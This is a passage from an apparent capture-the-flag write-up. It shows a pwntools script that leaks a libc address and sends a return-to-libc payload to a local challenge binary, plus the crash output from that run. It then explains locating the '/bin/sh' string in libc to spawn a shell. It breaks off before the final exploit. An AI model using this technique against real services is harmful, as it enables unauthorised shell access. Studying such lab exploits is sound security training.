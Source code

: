 ```py
p.sendline(payload)

p.recvuntil(b"A"*OFFSET)
extra = u64(p.recvline().strip().ljust(8, b'\x00'))
leak = u64(p.recvline().strip().ljust(8, b'\x00'))

log.info(f"leak: {hex(leak)}")

LIBCGETSOFFSET = 0x75b60
LIBCSYSTEMOFFSET = 0x48e50

libcbase = leak - LIBCGETSOFFSET
libcsystem = libcbase + LIBCSYSTEMOFFSET

payload2 = b"A" * OFFSET
payload2 += p64(libcsystem)

p.sendline(payload2)

p.interactive()
```

```
[x] Starting local process './chall'
[+] Starting local process './chall': pid 10386
[*] leak: 0x7fe1a85d6b60
[*] Switching to interactive mode
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP�Z��
[*] Got EOF while reading in interactive

[*] Process './chall' stopped with exit code -11 (SIGSEGV) (pid 10386)
[*] Got EOF while sending in interactive
```

Unfortunately, it was a failure. However, thinking about it, `system()` is basically as good as executing a command. If you analyze this program in gdb by adding the line `gdb.attach(p)` to the script, you find that `RDI: 0x0`.

This means that `system(0x0)` was called which does not do anything.

Instead, we want something like `/bin/sh` to be called which will spawn a subshell, which is what we want. However where can we find a `/bin/sh` string to put into `RDI`? We can find it from the `LIBC`.

With `strings` we can find this offset easily.

```
➜ strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep '/bin/sh'
18a156 /bin/sh
```

Let's write our final exploit script.
